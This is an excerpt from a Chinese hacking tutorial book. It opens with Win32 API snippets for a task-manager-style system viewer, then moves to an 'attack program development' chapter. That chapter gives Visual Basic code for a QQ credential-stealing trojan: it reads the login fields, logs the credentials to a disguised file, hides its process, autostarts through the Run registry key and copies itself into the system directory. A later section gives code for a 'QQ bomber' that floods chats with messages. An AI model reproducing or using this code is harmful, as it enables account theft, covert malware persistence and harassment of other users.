可能大家对任务管理器里最熟悉的功能要数进程管理了，常常我们在怀疑中了病毒/木马的时候都会看看任务管理器里有没有什么特别的进程在运行，所以进程查看器应该是一个非常重要的功能。我们除了需要获得进程的名称外，还有什么呢？当然包括它的进程标识符(ProcessID)、用户信息(UserName)、CPU使用时间(CPUTime)和存储器的使用情况(MemoryUsage)，还有它的优先权(BasePriority)。CPU和Memory信息可以帮助我们分析进程的运行情况，而优先权可以表示进程在CPU分配处理器使用时的优先情况。这些都是通用的进程信息，让我们再看看其他的信息吧。进程的父进程标识符(Parent Process ID)、创建时间(Create Time)、程序名称等在很多情况下也是我们关心的信息。我们再看看进程相关的性能信息。在Windows下通常有两种模式：内核模式(Kernel: Level 0)和用户模式(User: Level 3)，进程往往在两种模式中来回切换，所以可以获得进程在内核模式和用户模式各自的使用时间。同时，还包括进程相关的工作集(WorkingSet)、分页池(PagedPool)、非分页池(NonePagedPool)和页面文件(PageFile) 信息。进程相关的I/O操作包括读/写/其他等动作，我们可以获得这些操作的次数和传送数据的数量。

如果你怀疑某个进程是木马，那你还想获得哪些信息呢？简单的进程名称应该是不够的吧！我们希望获得进程的实际程序的路径，这样可以帮助我们判断究竟是哪个程序在运行。前段时间不是在讨论什么进程隐藏的，其中一种就是“创建远程线程”，而主体往往又是以动态链接库(DLL)的形式存在的，我们就希望看到某个具体进程所包含的所有模块(Module)，常常是动态连接库文件。“线程”是一个大家熟悉的名字，它是Windows系统中的实现体，而进程则是线程运行的环境。一个进程到底创建了多少线程了？我们同样可以枚举进程内部的所有线程信息。如果你发现一个木马进程，下面的动作就应该是分析它的运行机制(如果你对它感兴趣)，不过最终你还是要将它结束吧。在Windows2k下，很多系统关键进程在TaskMgr里是不能被结束的，不过现在你不用担心了。好的，对进程的操作当然就包括结束进程。如果你用过中文的XP，你是否常常遇到任务栏“假死”的情况，虽然你的电脑没有挂掉，但却动弹不得。那好，我们也同样可以将任意的进程挂起来，不管你对它做什么动作(除了结束)，它都不会有任何的反应。有了挂起进程，同样我们也可以将进程从“挂起”状态激活。

#### 二、模块分析

桌面窗口是大家接触得最多的交互界面了，你是否想获得每个窗口的标题信息呢？当然，我们还可以获得与窗口关联的进程，线程与窗口句柄属性。如果大家对VC比较熟悉，就应该知道其中的一个SPY++工具吧，它就可以获得桌面窗口，进程和线程的详细信息，不过现在就不用打开这个、打开那个了，通通搞定！

系统性能是每个用户关心的话题。它包括整个系统当前创建的句柄、进程以及线程的数目。还有物理存储器(Physical Memory)的总量和使用情况，系统高速缓存(System Cache)的大小，存储器保留与提交(Commit Charge)状况，当然还有核心分页/非分页池的使用情况。几乎包括了Windows系统下存储器管理的大部分信息。

虽然现在硬盘的价格已经很低了，不过我还是在用6.4G的小东东，所以常常遇到“Low Disk”！我们常常要看看硬盘的使用情况，不过每次都要进入我的电脑，太麻烦了。而我们现在可以一次了解所有磁盘的容量和当前使用情况，同时还有它们的格式类型(如FAT、NTFS、CDFS等)和磁盘标签。

说到环境块，或许不是那么熟悉吧，它包含一些环境变量，而每个环境变量对应一个/多个字符串，你可以在控制面板的SYSTEM/Advanced（系统/高级）里对它们进行设置，包括添加新的环境变量、删除和编辑系统环境变量。

事件记录对我们分析系统的使用情况有很大的帮助。事件记录分为3种：应用程序、系统和安全。而对应的每种事件又可以分为几种类型，它们分别是常规信息、警告和错误。其中，包括记录序号(Record Number)、事件类型(Type)、标识符(Event ID)、来源(Source)、产生时间(Time Generated)、用户名(User)和相关描述信息(Description)。有时间大家可以多看看事件信息，当然每个网络管理员对它们应该是很熟悉的，不过还包括其他的事件日志信息。

Windows系统下的ipconfig /all这个命令我是常常用，因为我们使用的是DHCP，没事看看自己的IP地址变了没有。其中，包括详细的网络适配器的信息，包括适配器名称、描述、硬件地址和类型、IP地址及相应的子网掩码、网关与DHCP服务器地址等。不过，你是否对网络流量也感兴趣呢？我们当然可以获得主机接受/发送了多少（非）广播数据报，出现了多少错误，一共接受/发送了多少信息，这些对每个网友都是有用的信息哟。

网络共享往往是大家注意的地方，你究竟共享了多少信息，它们的文件路径是什么，还有它们的共享类型信息。我们在不需要某些共享资料时，当然不要忘了将其删除，以免泄露自己的机密信息。

Windows的NT是一个多用户的系统，允许多种类型用户的存在。我们希望获得用户账号的使用期限(Password Expired)，记住要不定时地修改用户的密码哟，以及用户标识符(User ID)、组标识符(Group ID)，还有用户账号的类型(Type)，不同的类型有不同的权限，我们当然希望有最High的权力哟！看看系统对某个账号的磁盘空间使用情况是否有限制(Max Storage)，账号登录的次数(Number Of Logon)和登录时间信息(Logon Hours)等，对我们分析用户的使用情况也有帮助的。

系统的Win32服务和设备驱动信息也是很重要的，我们希望探测每个服务/设备启动程序的具体路径、状态、类型、启动方式等等信息。我们还希望对服务进行控制，比如停止、启动和删除操作。大家可以参阅《浅析Windows2000/XP服务与后门技术》，以获得更多关于Win32服务的信息。

关机也不是那么单调的，你可以注销自己的系统，如果你要离开当然就需要锁定了。最近大家都不喜欢关机，太麻烦了，所以都习惯使用休眠，系统将会为我们保留当前信息，不过还有支持电源管理的关机和休眠。Windows2000的用户注意了，我们同样可以使用XP系统下的带有倒计时与消息提示的关机和重启功能了。

系统的版本信息是比较固定的，主要包括操作系统的指纹、注册组织/用户、主机名和系统相关目录等信息。

说了这么多，我们也该谈谈如何实现了。

#### 三、内核实现

##### 1. 窗口信息

微软为我们提供了打开特定桌面和枚举桌面窗口的函数。

```
hDesk=OpenDesktop(lpszDesktop,0,FALSE,DESKTOP_ENUMERATE);
//打开我们默认的Default桌面;
EnumDesktopWindows(hDesk,(WNDENUMPROC)EnumWindowProc,0);
//枚举打开桌面上的所有窗口，由回调函数实现。
BOOL __stdcall EnumWindowProc(HWND, LPARAM);
//在回调函数中，我们可以获得窗口的标题和相关进程，线程信息;
GetWindowText(hWnd,szWindowText,dwMaxCount);
GetWindowThreadProcessId(hWnd,&dwPID);
```

#### 2. 设备驱动器信息(服务和设备驱动器差不多，在此不做重复)

设备驱动信息是由服务控制管理器(SCM)来管理的，我要打开服务控制管理器，并枚举所有的设备驱动器。

```
OpenSCManager(NULL,NULL,SC_MANAGER_ALL_ACCESS);
//以所有权限打开服务控制管理器;
EnumServicesStatus(schManager,dwDeviceType,dwDeviceState,
EnumStatus,dwBufSize,&dwBytesNeeded,
&dwDevicesReturned,&dwResumeHandle))
//枚举所有设备的当前状态;
CloseServiceHandle(schManager);
//记住，在结束访问后要关闭服务句柄;
OpenService(schManager,szDeviceName,SERVICE_ALL_ACCESS);
//打开特定的设备驱动器;
QueryServiceConfig(schDevice,lpDeviceConfig,
1024*8,&dwBytesNeeded);
//查询驱动器的服务配置信息;
QueryServiceStatus(schDevice,&DeviceStatus);
//查询设备驱动器的当前状态;
QueryServiceConfig2(schDevice,SERVICE_CONFIG_DESCRIPTION,
(LPBYTE)lpDeviceDescription,8*1024,&dwBytesNeeded)
//查询设备的描述信息;
StartService(schDevice,0,NULL);
//启动设备;
ControlService(schDevice,SERVICE_CONTROL_STOP,&DeviceStatus);
//停止设备;
DeleteService(schDevice);
//删除设备;
```

##### 3. 磁盘信息

我们希望获得系统所有磁盘的信息，包括软盘、硬盘、光盘等等。

```
GetLogicalDriveStrings(dwBufferLength,lpBuffer);
//获得逻辑设备的信息;
GetVolumeInformation(lpRootPathName,lpVolumeNameBuffer,
dwVolumeNameSize,&dwVolumeSerialNumber,
&dwMaximumComponentLength,&dwFileSystemFlags,
lpFileSystemNameBuffer,dwFileSystemNameSize);
//获得磁盘卷信息,包括卷名称和格式类型;
GetDiskFreeSpaceEx(lpRootPathName,&FreeBytesAvailable,
&TotalNumberOfBytes,&TotalNumberOfFreeBytes);
//探测磁盘的空间使用情况;
```

##### 4. 环境变量

我们可以从注册表中获得环境块的信息: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\Environment,当然要使用注册表的函数。

```
RegOpenKeyEx(HKEY_LOCAL_MACHINE,RegKey,0,KEY_QUERY_VALUE,&hKey);
//打开注册表的键;
RegEnumValue(hKey,dwIndex,EnvironVariable,
&dwVariableLength,NULL,NULL,NULL,NULL);
//查询我们需要的信息值;
GetEnvironmentVariable(EnvironVariable,EnvironString,1024);
//获得环境变量的字符串信息;
```

##### 5. 事件记录信息

```
OpenEventLog(NULL,szLog);
//打开时间日志记录;
GetOldestEventLogRecord(hEvent,&dwThisRecord);
//获得最新的日志信息,以便继续查找;
ReadEventLog(hEvent,EVENTLOG_FORWARDS_READ | EVENTLOG_SEQUENTIAL_READ,
0,pEventLogRecord,1024*32,&dwRead,&dwNeeded)
//读去日志信息;
LookupAccountSid(NULL,pSid,szName,&dwName,szDomain,&dwDomain,&SNU);
//获取账户的SID,以便获得账户的用户名称;
GetNumberOfEventLogRecords(hEvent,&dwTotal);
//获得事件日志的总数;
CloseEventLog(hEvent);
// 不要忘记关闭事件句柄;
```

##### 6. 网络共享

我们使用第二等级的网络共享搜索。

```
NetShareEnum(NULL,dwLevel,(PBYTE *)&pBuf,MAX_PREFERRED_LENGTH,&entriesread,&totalentries,
&resume);
// 列举所有的共享目录及相关信息;
NetApiBufferFree(pBuf);
// 释放缓冲区;
NetShareDel(NULL,(char *)lpShareNameW,0);
// 删除网络共享目录;
```

##### 7. 网络适配器信息

我们要探测NIC的信息和网络流量。

```
GetAdaptersInfo(&AdapterInfo,&OutBufLen);
// 获取适配器信息;
```

##### 8. 系统性能

获取系统的存储器使用情况。

```
GetPerformanceInfo(&PerfInfo,sizeof(PERFORMACE_INFORMATION))
// 获取系统性能信息;
```

##### 9. 进程/线程/模块信息

在此，我们使用工具帮助函数(ToolHelp32)和系统。

```
OpenProcessToken(GetCurrentProcess(),TOKEN_QUERY | TOKEN_ADJUST_PRIVILEGES,&hToken);
// 打开进程的令牌，提升权限;
AdjustTokenPrivileges(hToken,FALSE,&TokenPrivileges,sizeof(TOKEN_PRIVILEGES),NULL,NULL);
// 将进程的权限提升到支持调试(Debug);
CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
// 创建进程的快照;
Process32First(hProcessSnap,&ProcessEntry32);
Process32First(hProcessSnap,&ProcessEntry32);
// 枚举所有进程;
OpenProcess(PROCESS_QUERY_INFORMATION,FALSE,ProcessEntry32.th32ProcessID);
// 打开特定进程，以查询进程相关信息;
GetProcessTimes(hProcess,&CreateTime,&ExitTime,&KernelTime,&UserTime);
// 获取进程的时间信息;
GetProcessMemoryInfo(hProcess,&PMCounter,sizeof(PMCounter));
// 获取进程的存储区信息;
GetPriorityClass(hProcess);
// 获取进程的优先权;
GetProcessIoCounters(hProcess,&IoCounters);
// 获取进程的IO使用情况;
CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, dwProcessID);
```

##### 10. 关机

```
AdjustTokenPrivileges(hToken, FALSE, &TokenPrivileges, sizeof(TOKEN_PRIVILEGES), NULL, NULL);
// 调整进程令牌,使其支持关机;
ExitWindowsEx(EWX_LOGOFF, 0);
// 注销系统;
LockWorkStation();
// 锁定系统;
InitiateSystemShutdown(NULL, szMessage, dwTimeout, FALSE, bSig);
// 支持到记时和消息显示的关机/重启;
SetSystemPowerState(bSig, FALSE);
// 系统休眠/冬眠;
```

##### 11. 用户信息

```
NetUserEnum(NULL, dwLevel, FILTER_NORMAL_ACCOUNT, (LPBYTE*)&pBuf,
dwPrefMaxLen, &dwEntriesRead, &dwTotalEntries, &dwResumeHandle);
// 枚举系统用户信息;
NetUserDel(NULL, lpUserNameW);
// 删除指定用户;
```

##### 12. 系统版本信息

```
GetVersionEx((LPOSVERSIONINFO)&osviex);
// 获取操作系统的版本信息;
我们也可以通过注册表(HKEY_LOCAL_MACHINE\ SOFTWARE\Microsoft\Windows NT\ Current
Version)获取相关信息:
GetTickCount();
// 获取开机时间;
GetComputerName(szInfo, &dwInfo);
// 获取计算机名称;
GetUserName(szInfo, &dwInfo);
// 获取计算机用户名;
GetWindowsDirectory(szInfo,MAX_PATH+1);
// 获取 Windows 目录;
GetSystemDirectory(szInfo,MAX_PATH+1);
// 获取系统目录;
```

#### 四、小结

虽然我们现在已经实现了任务管理器的各项功能，甚至比Windows自带的功能还要强大，不过却没有什么兴奋的感觉。因为看看我们的代码，你就会发现那些都是直接调用的Win32API函数，我们清楚系统底层究竟是怎么实现的吗？不管我们是否只是为了实现一个功能，还是对操作系统感兴趣，我们都应该更多地对系统底层进行研究，而不仅仅是只会使用高层函数的程序员。虽然微软为我们隐藏了很多的内部细节，但正是这种底层的秘密激发了我们对其进行深入研究的兴趣和动力。

## 第6章 攻击程序开发

## 6.1 用VB打造“QQ密码窃取器”

依照“一个简单木马程序的编写与伪装策略”中的方法，只能得到“QQ用户登陆”窗口的用户名和密码，而大多用户是通过“QQ用户注册向导”来登陆的，所以我们要重新开发一下。这次我们用VB来实现。虽说VB写这类程序不太合适，但这篇文章旨在介绍开发此类程序的一般方法，如果读者跟着我一起做的活，一定也能开发出白己的“潜伏者木马”。

- 准备工作：
- 1.这次开发工具用的是VB，相信国内有很多人都会吧。其实如果你能看完这篇文章，那么用任何一款开发工具，都能开发针对任何程序的“潜伏者”程序。
- 2.需要一张纸，一支笔，作用以后便知。

#### 一、原理介绍——监视法

我们的目的是进攻QQ的用户名和密码程序的主要任务自然是辨认出用户名和密码，并且还要将其记录下来。我们使程序常驻内存，找寻“QQ用户注册向导”的窗口，一旦窗口出现，立即找寻用户名、密码的窗口，利用sendmessage返回窗口里的内容，这样我们就得到登陆用户的用户名和密码了。由于程序“勤劳”地监视着桌面上的每一个窗口，所以我们称之为“监视法”。

#### 二、监视法的优缺点

在VB中，我们使用“监视法”一般是加一个TIMER控件，将其Interval属性设置为1，即1毫秒执行代码一次。然后将找寻用户名、密码的核心代码放进去。从这里我们可以看出这种方法对系统资源的浪费会比较大，这就是监视法的主要缺点。而由于Interval的属性被置为了1，这样对QQ的登陆用户就是一网打尽，几乎不可能漏掉一个用户，这就是监视法的优点。

给大家一个数据参考：笔者的机子是赛扬433，内存128M（一台老爷车了），在测试时，几乎看不出有什么异常，这就是说监视法在目前的机子上是行得通的，而且效果还很不错。

#### 三、步入开发

- 1.基础知识

主要是API函数。API函数的强大功能，相信大家都能体会到，而这个程序也是利用了API函数这把“利刃”。

- (1) FindWindow——用其找寻QQ的用户登陆的窗口。

以下是其声明：

```
Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long
```

FindWindow有两个参数,lpClassName是欲找寻窗口的类名,lpWindowName是欲找寻窗口的标题。而我们用到的是找寻QQ窗口的类名。

- (2) SendMessage——用其返回窗口内的文字。

以下是其声明:

```
Declare Function SendMessage& Lib "user32" Alias "SendMessageA" (ByVal Hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any)
```

SendMessage的参数比较多,读者可以到网上找相应的资料了解。在这里,读者仅需了解我们是靠SendMessage来取得用户名和密码的,在后面我会讲到SendMessage的用法(虽然在密码栏中显示的是*,但是用SendMessage返回的就是原始文字。网上许多星号探取器,也是主要用的这个函数来返回原始文字的)。

- (3) GetWindowLong——从指定窗口的结构中取得信息。

以下为其声明:

```
Declare Function GetWindowLong Lib "user32" Alias "GetWindowLongA" (ByVal hwnd As Long, ByVal nIndex As Long) As Long
```

我们利用其找到用户名和密码分别所在窗口,用法在后面的代码中有实际的解释。

- 4. GetWindow——获得一个窗口的句柄,该窗口与某源窗口有特定的关系。

```
Declare Function GetWindow Lib "user32" Alias "GetWindow" (ByVal hwnd As Long, ByVal wCmd As Long) As Long
```

在这里我们主要用这处API函数来得到窗口的子窗口。用法在代码中体现。

以上就是我们主要利用的API函数。但程序还会用许多其他的API函数,我会在代码中一一解释。

### 2. 了解敌人:

我们要利用QQ窗口的类名来找到QQ的窗口,那么问题来了,我们怎么知道QQ窗口的类名呢?在这里我为大家写了一个小工具,只要拖动图片到欲查找的窗口,即可显示出窗口的类名。如图1所示,我们利用这个小程序得到了“QQ注册向导”窗口的类名。如图6-1上所显示的是“#32770”。(当然,类名为#32770并非仅仅是QQ的窗口,但我们后面的条件又可以将范围缩小到仅有QQ才可以满足。)



先看一段代码(此段应加在TIMER控件中):

```
QQhwnd = FindWindow("#32770", vbNullString) ' 得到窗口的句柄
If QQhwnd = 0 Then Exit Sub
```

接下来,我们要用代码直插心脏地带——得到“我的号码”和“密码”栏的内容:

```
zi = GetWindow(QQhwnd, GW_CHILD) ' 得到一个子窗口的句柄
If zi = 0 Then Exit Sub
zzi = GetWindow(zi, GW_CHILD) ' 得到子窗口的子窗口，即与“我的号码”呈并列关系的窗口
If zzi = 0 Then Exit Sub
```

接着，我们要找到“我的号码”和“密码”的窗口了。这里我们发现，“我的号码”和“密码”的类名都是“Edit”，如果我们找寻“Edit”类名窗口的话，可能会出现混淆，因此，我们采用另一种方法，即使用GetWindowLong来寻找窗口。在这里我提供一种笨方法，来寻找目的窗口：

```
Public Function getText(ByVal Hwnd As Long) As String ' 此函数的作用是返回指定句柄
Dim TextLength As Long 窗口中的内容
Dim text As String
TextLength = SendMessage(Hwnd, WM_GETTEXTLENGTH, 0, 0) ' 得到文字长度
TextLength = TextLength + 1
text = Space(TextLength)
SendMessage Hwnd, WM_GETTEXT, TextLength, ByVal text
getText=Left(text, TextLength) ' 得到文字内容
End Function
```

有了上面那个函数后，我们就可以通过窗口样式来得到目的窗口了：

```
Do While zzi <> 0
lo = GetWindowLong(zzi, GWL_STYLE) ' 返回窗口样式
MsgBox getText(zzi) ' 得到窗口的内容
MsgBox lo ' 得到样式
zzi = GetWindow(zzi, GW_HWNDNEXT) ' 得到下个同级窗口
Loop
```

以上的代码是通过遍历与“我的号码”同级的窗口，最终找到“我的号码”和“密码”窗口。第一次Msgbox弹出的是文字，例如“新申请一个QQ号码”、“通过QQ注册向导申请”等，紧接着的Msgbox是一串数字，即为该窗口的样式。你现在的工作就是一边点击鼠标，一边注意“我的号码”文字的出现，因为它后面便是一串有用的数字。
通过上面的方法，我们得到如下关系：
我的号码：1342251136
密码：1342242976
有了这个东东以后，我们就可以在Timer控件中加入如下的代码：

```
Do While zzi <> 0
lo = GetWindowLong(zzi, GWL_STYLE)
If lo = 1342251136 Then nameqq = getText(zzi) ' 判断是否为“我的号码”窗口
If lo = 1342242976 Then ' 判断是否为“密码”窗口
passwd = getText(zzi) ' 得到密码
Exit Do ' 退出循环
End If
zzi = GetWindow(zzi, GW_HWNDNEXT)
Loop
```

通过这个循环，我们便得到了“我的号码”和“密码”里的内容，并将其分别赋给nameqq和passwd，

接下来就可以将得到的用户名和密码写进一个文件了：

```
Public Sub savefile(ByVal text1 As String, ByVal text2 As String, ByVal path as string)
On Error Resume Next
Dim fso As Object, nullstring As String, a As Object
nullstring = Space(5)
Set fso = CreateObject("scripting.filesystemobject") ' 创建文件系统对象
If fso.fileexists("path\explorer.ini") = False Then ' 此处 path 就由读者自己决定了
Set a = fso.openTextFile("path\explorer.ini", 8, True)
a.writeline "This little programme is coded by L.Jiang."
a.writeline ""
a.Close
End If
Set a = fso.openTextFile("path\explorer.ini", 8, True)
a.writeline text1 + nullstring + text2
nameqq = ""
passwd = ""
End Sub
```

这样即生成了一个密码文件。接着大家还可以继续写代码将此文件发送到指定邮箱去。这段代码，我就不再多说，想必大家都能写吧！

以上即为如何找到特征窗口并返回其内容的过程。大家看了后有什么感想，是不是很简单呢？是不是也想自己试试呢？呵呵，你可以试试开发对应网络游戏的潜伏者……

“潜伏者”的核心部分就介绍到这里了！

##### 3. 开发后期

作为一个完整的“潜伏者”，还需要做点后期的工作。

(1) 隐藏进程。在Win98下，将我们的程序注册为系统进程，即用Ctrl+Alt+Del是无法看到的：

```
Declare Function GetCurrentProcessId Lib "kernel32" () As Long
Declare Function RegisterServiceProcess Lib "kernel32" (ByVal ProcessId As Long, ByVal ServiceFlags As Long) As Long
Dim id As Long
id = GetCurrentProcessId
RegisterServiceProcess id, 1
```

这样就能简单地隐藏程序了。其实还可以在“工程属性”中将工程名改得像系统进程，这样也能骗掉一些对系统不太熟的初学者。在Win2000下，这种方法不再适用，而且用上面的方法也是不能返回*号文字的原始内容的。

(2) 自动启动。我们的潜伏者总不能只运行一次吧，我们要想办法让它每次开机就启动。我们可以修改注册表来实现：

```
Public Sub AutoRun()
Dim wshshell As Object
Set wshshell = CreateObject("Wscript.Shell")
wshshell.regwrite "HKLM\Software\ Microsoft\Windows\CurrentVersion\Run\sysvc.dll", "sysvc.dll.exe "
End Sub
```

这里我们用到了WSH对象,功能强大,用法简单。大家应该听过Happy Time吧,其作者就把WSH的作用发挥得淋漓尽致。推荐大家多多使用。

(3)自我复制到%systemroot%目录下,通常都是c:\windows\system。不过如果别人改了目录名怎么办?没关系,我们用程序来解决。

```
Dim lendir As Integer
Dim windir As String * 100
Dim sysdir As String
lendir = GetSystemDirectory(windir, Len(windir)) '得到%systemroot%目录路径
Dim xpath As String
xpath = App.Path
xpath = xpath + "" + App.EXEName + ".exe"
sysdir = Left(windir, lendir) & "" & "sysvc.dll.exe" '欲藏身的地方
CopyFile xpath, sysdir, False '复制文件
```

完成了后期制作,我们的“潜伏者”个人版就打造好了,是不是很酷呢?快试试效果吧!还是那句话,别拿它做不该做的事啊!在你自己的机子上试试看。从上面的代码可以看出,这类程序的开发其实是很简单的,难就难在怎么创新,怎样加入新的特性,这一点就需要读者自己来解决。

## 6.2 体验QQ轰炸机的开发乐趣

时下,相信很多人都已经知道“QQ轰炸机”这个QQ信息攻击的小软件了。这个软件在黑白网络上仅仅发布了4天就有9000多的下载量,而我的QQ也因此每天有50左右的人将我加为好友,希望和我交流。作为这个软件的作者,说真的,这的确让我很吃惊,很感动。在此,先向一直支持和关注我的网友们道声谢。作为对广大朋友的回报,我把“QQ轰炸机”的原理和具体用代码实现的过程在此公布!

### 一、 制作原理

我们知道,在QQ的“普通模式”下送一条信息后,QQ的对话框就会消失;在QQ的“对话模式”下,我们可以在QQ的输入框内输入要发送的信息,然后点击“送信息”按钮就可以送出一条信息,并且QQ的对话框不会消失。不要以为这是废话,这很值得我们利用!呵呵,明眼人一读到这儿就知道了:我们要是用个程序来循环实现自动向QQ对话框里填入发送信息,再在这之后自动点击“送信息”按钮,不就可以形成一种“刷屏”的效果了吗?聪明,就是这个!好了,原理明白了,废话少说,看看具体怎样实现吧。

### 二、 预备知识

先来讲一些下面要提到的概念。

- 1. 句柄:

句柄是由 Microsoft Windows 运行环境提供给一个对象的设备描述体,是指向该设备的指针。学过编程的人到这儿就好理解了,一些菜鸟可能要喊了:“不明白!”好吧,我们暂且先把它理解为Windows里面像按钮、对话框等等元素的惟一标识,有了它,我们就可以找到它、操纵它了!

- 2. 类:

类是具有相同操作功能和相同数据格式(属性)的对象集合。菜鸟们就可以把它理解为:具有相同性能东西的统称。比如:自行车是山地车、公主车、跑车等的统称,它就是类,而“自行车”是这个类的名字。

#### 三、必备工具

“QQ轰炸机”是用VB6.0实现的。我们要用的工具：VB6.0中文版、SPY++、ApiViewer。

- 1. VB6.0中文版：编写代码并编译成最终的可执行程序。
- 2. SPY++：查看QQ上我们想知道的Window界面元素的类名。
- 3. ApiViewer：方便我们向VB添加API函数的工具。

#### 四、前期准备

“知己知彼，百战不殆”。先来看看我们要研究的QQ上都是些什么。

打开QQ，并开启一个QQ对话框，再打开SPY++，看“送讯息”按钮和QQ填写讯息的输入框，主要看它们各自的类名（SPY++的使用这里就不介绍了）。

- “送讯息”按钮：Button
- QQ对话框上的工具栏：ToolbarWindow32
- 输入框（有工具栏）：RICHEDIT
- 输入框（无工具栏）：EDIT

我们要“解剖”的对象是“QQ2000c 0630”版本的QQ。我们都知道，如果对方使用的也是“QQ2000c 0630”版或更高版本的QQ，我们的发送框上就多了个可以修饰字体等功能的工具栏，但是如果对方的版本不支持这些特殊功能的显示，那么我们相应也没了这个工具栏。本人曾经写代码查看了这两种不同的窗体，它们包含的界面元素完全一样，只是控制其中的某些是否显示。而我们的任务是写出的程序要兼容所有的QQ。在有工具栏的情况下QQ是用RICHEDIT来发送的，而无工具栏的情况下是用EDIT来送讯息的。好了，看来工具栏的显示与否决定了QQ是用哪类发送窗口（就照这个下手）。

打开VB6开发环境，新建一个“标准EXE”工程。工程名为QQBang，给form1改名为frmMain。在frmMain上添加控件：

| 控件 | 属性名 | 属性值 |
|---|---|---|
| TextBox | Name | txtContent |
| | MultiLine | True |
| | ScrollBars | 2-Vertical |
| | Text |  |
| CommandButton | Name | cmdRun |
| | Caption | 轰炸 |

摆放大致如图6-2所示：

给当前工程添加一个模块，命名为APIModule。

#### 五、代码实现

先来声明几个API函数和相关的常量（用ApiViewer添加）：

```
Private Declare Function GetWindow Lib "user32" (ByVal hWnd As Long, ByVal wCmd As Long) As Long
Private Declare Function GetDesktopWindow Lib "user32" () As Long
Private Declare Function GetWindowText Lib "user32" Alias "GetWindowTextA" (ByVal hWnd As Long, ByVal lpString As String, ByVal cch As Long) As Long
Private Declare Function GetClassName Lib "user32" Alias "GetClassNameA" (ByVal hWnd As Long, ByVal lpClassName As String, ByVal nMaxCount As Long) As Long
Private Declare Function SendMessage Lib "user32" Alias "SendMessageA" (ByVal hWnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any) As Long
Private Declare Function FindWindowEx Lib "user32" Alias "FindWindowExA" (ByVal hWnd1 As Long, ByVal hWnd2 As Long, ByVal lpsz1 As String, ByVal lpsz2 As String) As Long
Private Declare Function GetWindowLong Lib "user32" Alias "GetWindowLongA" (ByVal hWnd As Long, ByVal nIndex As Long) As Long
Private Const ES_READONLY = &H800&
Private Const WS_VISIBLE = &H10000000
Private Const GWL_STYLE = (-16)
Private Const WM_SETTEXT = &HC
Private Const BM_CLICK = &HF5
Private Const GW_CHILD = 5
Private Const GW_HWNDNEXT = 2
```

我们在cmdRun_Click事件中添加如下代码：

```
Dim blExitWin As Boolean
Dim blnContainTB As Boolean
Dim lgTBoxStyle As Long
Dim lpChild As Long
Dim lpNewChild As Long
Dim lpSendButton As Long
Dim strAimClass As String
Dim strClassName As String * 20
Dim strfrmText As String * 20
Dim frm_hWnd As Long
blnContainTB = False ' 标识是否有 TOOLBARWINDOW32
blExitWin = False ' 如果没有找到 QQ 的窗体就用 False 标识
lpChild = GetWindow(GetDesktopWindow, GW_CHILD)
NoDialogue:
' 以下这个循环是用来查找当前是否有 QQ 的窗口打开着
Do While lpChild <> 0
Call GetWindowText(lpChild, strfrmText, 10) ' 得到窗体的标题
If Left(strfrmText, 4) = "对话模式" Then
blExitWin = True
frm_hWnd = lpChild
lpNewChild = GetWindow(frm_hWnd, GW_CHILD)
lpSendButton = FindWindowEx(frm_hWnd, 0, "BUTTON", "送讯息(&S)") ' 得到发送按钮的句柄
' 确定 QQ 输入窗口的句柄
Do While lpNewChild <> 0
GetClassName lpNewChild, strClassName, 20
If UCase(Left(strClassName, 15)) = "TOOLBARWINDOW32" Then ' 查找 TOOLBARWINDOW32 是否可见，这决定我们是向 RICHEDIT 还是向 EDIT 发送信息
blnContainTB = CBool(GetWindowLong(lpNewChild, GWL_STYLE) And WS_VISIBLE)
Exit Do
End If
lpNewChild = GetWindow(lpNewChild, GW_HWNDNEXT)
Loop
' 如果的确有 TOOLBARWINDOW32，则应向 RICHEDIT 发送信息。
' 得到句柄，退出 Do 循环，直接去执行发送操作。
If blnContainTB = True Then Exit Do
ElseIf Left(strfrmText, 4) = "发送消息" Then
' 如果 QQ 为普通模式，先将其置成对话模式，以便于我们做循环发送用
frm_hWnd = lpChild
lpNewChild = GetWindow(frm_hWnd, GW_CHILD)
lpSendButton = FindWindowEx(frm_hWnd, 0, "BUTTON", "对话模式(&T)")
SendMessage lpSendButton, BM_CLICK, 0, 0
GoTo NoDialogue
End If
lpChild = GetWindow(lpChild, GW_HWNDNEXT)
Loop
' 如果寻找遍了桌面也没有 QQ 的对话窗口，立刻结束 Sub
If blExitWin = False Then MsgBox "请先打开一个 QQ 窗口！！", vbInformation, "提示：": Exit Sub
' 当 TOOLBARWINDOW32 可见时，即 blnContainTB 为 True 时
' 对 RICHEDIT 操作，否则对 EDIT 操作
strAimClass = IIf(blnContainTB = True, "RICHEDIT", "EDIT")
lpChild = GetWindow(frm_hWnd, GW_CHILD)
Do While lpChild <> 0
strClassName = Empty
GetClassName lpChild, strClassName, 20
lgTBoxStyle = (GetWindowLong(lpChild, GWL_STYLE))
If UCase(Left(strClassName, Len(strAimClass))) = strAimClass And _
((lgTBoxStyle And ES_READONLY) <> ES_READONLY) Then
funSendContent lpChild, lpSendButton
Exit Do
End If
lpChild = GetWindow(lpChild, GW_HWNDNEXT)
Loop
```

其中的funSendContent是一个过程，用来将我们要发送的信息复制到QQ，并自动按下发送按钮。其具体代码如下：

```
' 发送内容
Private Sub funSendContent(ByVal lpNewChild As Long, ByVal lpSendButton As Long)
